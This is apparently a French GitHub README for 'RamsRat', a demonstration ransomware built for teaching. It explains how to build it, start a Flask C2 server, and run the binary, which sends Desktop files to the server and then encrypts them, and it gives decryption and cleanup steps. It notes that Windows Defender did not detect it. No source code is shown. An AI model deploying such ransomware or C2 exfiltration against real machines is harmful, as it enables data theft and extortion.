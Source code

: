 # RamsRat-Ransomware
Un faux Ransomware pour comprendre exactement comment il fonctionne.

**DISCLAIMER   : Je ne suis pas responsable de tout ce que vous faites avec ce script. Je mets à disposition ce script et mes pseudos connaissances dans l'unique but d'instruire et non pas détruire.**

English-Version

Pour comprendre comment fonctionne un ransomware, il est important de noter que ce qui suit est une description générale. Les ransomware peuvent varier considérablement en fonction des spécificités de chaque virus.

En général, un ransomware :

- Est exécuté par l'hôte ou l'attaquant sur la machine cible.
- Crée une clé (souvent de 32 bits, ce qui peut prendre beaucoup de temps à casser).
- Envoie les fichiers à un serveur de commande et contrôle (C2).
- Crypte les fichiers avec la clé.
- Demande une rançon.

## Ransomware

Un ransomware est un script, un logiciel qui exécute du code pour chiffrer l'intégralité des données personnelles. Il peut ou non extraire ces données vers un serveur distant, afin que, même si vous payez la rançon, les attaquants puissent toujours les utiliser.

Ensuite, il vous est demandé de payer en échange de la clé de décryptage (et parfois d'un déchiffreur).

La finalité de l'histoire dépend uniquement de la bonne foi de la personne qui a chiffré votre ordinateur (lol).

## ServeurC2

Un serveur C2 (commande et contrôle) sert principalement à gérer les victimes de vos payloads, un peu comme les sessions dans Metasploit.

Ici, il s'agit simplement d'un script Python qui permet de recevoir des fichiers via un lien.


## Prérequis Build

- Un client Windows (vous pouvez utiliser votre propre Windows, le script est inoffensif, ou utiliser une machine virtuelle).
- [Visual Studio Community](https://visualstudio.microsoft.com/fr/downloads/)
  
## Prérequis Started

- Un client Windows (vous pouvez utiliser votre propre Windows, le script est inoffensif, ou utiliser une machine virtuelle).
- [Python 3](https://www.python.org/downloads/) (sur Windows ou Linux, peu importe).
- [.NET Desktop Runtime 6.0.31](https://dotnet.microsoft.com/en-us/download/dotnet/6.0)

## Fonctionnement


**<!> Chiffre uniquement les fichiers du Bureau, pas de dossiers ou d'autres emplacements.**

- Exécution par l'utilisateur.
- Copie les fichiers du Bureau vers : `Bureau/DecryptFiles`.
- Envoie les fichiers du Bureau vers le serveur C2.
- Change le fond d'écran.
- Exécute un `readme.txt`.
- Chiffre les fichiers du Bureau avec une clé de 32 bits.

À la fin, on se retrouve avec un Bureau complètement chiffré.

Les fichiers copiés sont dans `Bureau/DecryptFiles`.

Les fichiers sur le serveur de contrôle (C2) sont décryptés et bien téléchargés.

Étant une démonstration, aucune persistance ni corruption de données ne sera effectuée.

Enfin, un déchiffreur `Decryptor.exe` et la clé de 32 bits vous seront nécessaires si vous voulez déchiffrer les données sur le Bureau.

**Encore une fois, il y a une copie de ces données dans `Bureau/DecryptFiles`, ce qui ne vous oblige en aucun cas à déchiffrer les fichiers du Bureau. Vous pouvez simplement les copier.**



## Get Started

Comme cité plus tôt, ce script est théoriquement inoffensif. Néanmoins, il peut être aisément modifié pour causer des dommages. N'utilisez que le script provenant de CE GITHUB.

Le serveur C2 est indépendant du ransomware. Il peut être distant ou local, peu importe, sur une autre machine ou sur la machine qui va être chiffrée.

### Installation du serveur C2

- Installation des dépendances :
  - Windows : 
    - [Python 3](https://www.python.org/downloads/) 
    ```
    pip install Flask
    ```
  - Linux
    ```
    sudo apt install python3
    pip install Flask
    ```

- Lancez le serveur c2. **(Si c'est sur le windows ne mettez pas le script sur le bureau)**

  ![plot](./img/serverc2.png)

### Execution du Ransomware

Defender ?

![plot](./img/defenderanalyse.gif)


Defender se fait avoir surement car on vient de la build, néanmois, je suis déçu qu'il ne detecte même pas l'encryption de fichier sur votre pc.

- Après avoir build ou téléchargé la release, on se retrouve avec un dossier `Ramsom`.
- On le place n'importe ou sur la machine qu'on veut "chifrée".

- On lance un cmd pour préciser le serveurC2 et le port. Tapez `cmd` en haut de la barre d'adresse.
  ![plot](./img/cmdexec.png)


- Enfin on execute la commande 
    ``RamsRat.exe ip-server-c2 port-server-c2`` == 
    ``RamsRat.exe 10.0.24.55 5000``

- A la fin de l'éxecution : 
  - Le bureau est chiffré et le fond d'écran changé :
  
    ![plot](./img/Execution.gif)

  - Le readme s'est ouvert avec des instructions (Fake):
  
    ![plot](./img/encryptdesk.png)

  - Les fichiers ont été envoyés au C2 et sont lisibles : 

    ![plot](./img/filesc2.png)

  

- On retrouve quand meme nos fichiers copiés dans `Bureau/DecryptFiles`. Ainsi que la clef de decryptage :

    ![plot](./img/decryptfiles.png)

  
### Decryption des fichiers

Avec le Ransomware je fournis le Decryptor.exe.

On lui fournis le path du dossier encrypter ainsi que la clef. Ici c'est simple les deux sont dans le bureau.

Il faut l'utiliser avec cmd et la commande.


```
Decryptor.exe <encryptedFolderPath> <keyFilePath>

Decryptor.exe C:\Users\ratus\Desktop C:\Users\ratus\Desktop\DESKTOP-S3D0A9K.encryptionkey.key
```

![plot](./img/decryption.gif)


### Nettoyage 

- Avec decryptor : 
  - Décrypter vos données
  - Supprimer tout les fichiers .ratus
  - Supprimer le dossier `DecryptFiles`
  - Supprimer le readme
  - Supprimer le projet (optionnel)
- Sans decryptor :
  - Copier les fichiers de `DecryptFiles` sur le Bureau
  - Supprimer les .ratus
  - Supprimer le readme
  - Supprimer `DecryptFiles`
  - Supprimer le projet (optionnel)
- Serveurc2 :
  - Supprimer le script python
  - `pip unistall Flask`
